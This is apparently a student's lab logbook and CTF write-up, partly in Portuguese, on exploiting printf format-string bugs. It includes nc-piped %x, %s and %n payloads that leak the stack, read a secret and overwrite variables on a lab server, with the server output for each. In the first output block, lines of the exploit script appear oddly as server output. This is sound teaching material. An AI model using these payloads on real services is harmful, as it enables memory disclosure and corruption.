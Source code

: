 # LOGBOOK 6

1.
- output
```console
server-10.9.0.5 | 
server-10.9.0.5 | # This line shows how to construct a string s with
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd630
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 672 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd558
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | #!/usr/bin/python3
server-10.9.0.5 | import sys
server-10.9.0.5 | 
server-10.9.0.5 | # Initialize the content array
server-10.9.0.5 | N = 1500
server-10.9.0.5 | content = bytearray(0x0 for i in range(N))
server-10.9.0.5 | 
server-10.9.0.5 | # This line shows how to store a 4-byte integer at offset 0
server-10.9.0.5 | number  = 0xbfffeeee
server-10.9.0.5 | content[0:4]  =  (number).to_bytes(4,byteorder='little')
server-10.9.0.5 | 
server-10.9.0.5 | # This line shows how to store a 4-byte string at offset 4
server-10.9.0.5 | content[4:8]  =  ("abcd").encode('latin-1')
server-10.9.0.5 | 
server-10.9.0.5 | # This line shows how to construct a string s with
```
"Since it didn't show Returned Properly and few smile faces, then it means we crashed."

2.A.

"Had to send .%x 64 times to get the first four bytes of my input in the stack"
- input
```console
echo 8888.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x | nc 10.9.0.5 9090 
```
- output
```console
8888.11223344.1000.8049db5.80e5320.80e61c0.ffffd5b0.ffffd4d8.80e62d4.80e5000.ffffd578.8049f7e.ffffd5b0.0.64.8049f47.80e5320.517.ffffd675.ffffd5b0.80e5320.80e9720.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.98c01f00.80e5000.80e5000.ffffdb98.8049eff.ffffd5b0.c5.5dc.80e5320.0.0.0.ffffdc64.0.0.0.c5.38383838
```
"We can see 38383838 which equals to the hex conversion of 8888 text."

2.B.

- input
```console
echo $(printf "\x08\x40\x0b\x08").%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%s | nc 10.9.0.5 9090
```

- output
```console
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 197 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd4d8
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 |@
                 .11223344.1000.8049db5.80e5320.80e61c0.ffffd5b0.ffffd4d8.80e62d4.80e5000.ffffd578.8049f7e.ffffd5b0.0.64.8049f47.80e5320.517.ffffd675.ffffd5b0.80e5320.80e9720.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.78db6400.80e5000.80e5000.ffffdb98.8049eff.ffffd5b0.c5.5dc.80e5320.0.0.0.ffffdc64.0.0.0.c5.A secret message
```

3.A.

"We consider in 4 bytes format, and before reaching the target variable, we change the count of bits to change the variable too." 
- input
```console
echo $(printf "\x68\x50\x0e\x08").%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%400x.%n | nc 10.9.0.5 9090
```


"We can see clearly that the target variable's value changed after."
- output 
```console
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 262 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd4d8
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | h.11223344.    1000. 8049db5. 80e5320. 80e61c0.ffffd5b0.ffffd4d8. 80e62d4. 80e5000.ffffd578. 8049f7e.ffffd5b0.       0.      64. 8049f47. 80e5320.     4d6.ffffd6b6.ffffd5b0. 80e5320. 80e9720.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.331a0500. 80e5000. 80e5000.ffffdb98. 8049eff.ffffd5b0.     106.     5dc. 80e5320.       0.       0.       0.ffffdc64.       0.       0.       0.                                                                                                                                                                                                                                                                                                                                                                                                             106.
server-10.9.0.5 | The target variable's value (after):  0x000003c4
```

3.B
- input
```console
echo $(printf "\x68\x50\x0e\x08").%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%716x.%n | nc 10.9.0.5 9090
```

"It changes to our desired value of 0x500."
- output
```console
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | h.11223344.    1000. 8049db5. 80e5320. 80e61c0.ffffd5b0.ffffd4d8. 80e62d4. 80e5000.ffffd578. 8049f7e.ffffd5b0.       0.      64. 8049f47. 80e5320.     4d6.ffffd6b6.ffffd5b0. 80e5320. 80e9720.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.5cbf3000. 80e5000. 80e5000.ffffdb98. 8049eff.ffffd5b0.     106.     5dc. 80e5320.       0.       0.       0.ffffdc64.       0.       0.       0.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         106.
server-10.9.0.5 | The target variable's value (after):  0x00000500
```

# CTF SEMANA 7

## Desafio 1

Em primeiro lugar, foi feita a análise ao ficheiro _main.c_. A primeira vulnerabilidade observada foi a declaracao printf feita na linha 27.

![image-14.png](./image-14.png)

Ao chamar o printf sem a format string, usando apenas o buffer como argumento, torna possivel a re-escrita ou leitura da memoria do programa. Vamos explorar esta vulnerabilidade para ler a variavel global flag. 

Comecando por executar o ficheiro _exploit_example.py_ e anotando o PID fornecido, para depois usar noutro terminal com o gdb. 

![image-15.png](./image-15.png)

![image-16.png](./image-16.png)

No gdb, obtemos a address da variavel global flag, assim, podemos, usando o printf, ler esta address de memoria, neste caso, 0x804C060. 

![image-17.png](./image-17.png)

No que toca ao input, foi adoptada uma tecnica de tentativa erro, indo gradualmente aumentando o numero de %s na string "\x60\xc0\x04\x08%s\n" ate chegar a localizacao pretendida. Acabou por ser necessario apenas 1 %s pelo que o offset era zero.

![image-18.png](./image-18.png)

Tendo conseguido ler com sucesso o flag_placeholder local, bastou alterar a variavel LOCAL para False no ficheiro _exploit_example.py_ para nos conectarmos ao servidor remoto e ler a flag.

![image-19.png](./image-19.png)

## Desafio 2

Em contraste ao desafio anterior, este tem como objetivo em vez de ler uma variável global, re-escrever o valor dela (key), notando que em vez de uma string estamos frente a um int. Em consequência, os métodos adotados foram semelhantes. Primeiro determinar a address de key, usando _p &key_ no gdb. Após tal, determinar o offset entre key e a format string buffer, neste caso, tal como no desafio 1, o offset é 0.

Agora o input a injetar: como 0xbeef é um valor em hexadecimal e pretendemos injetar um int, será necessário convertê-lo para decimal (48879). Porém, como queremos injetar 5*4 bytes (tamanho do número), precisamos de arranjar um meio para escrever na stack um número de bytes maior que o tamanho de buffer. É possível fazer tal usando o format ```x%1$n```. Portanto o input será: ```\x34\xc0\x04\x08%48875x%1$n``` (48875 + 4 = 48879). Flag captured!





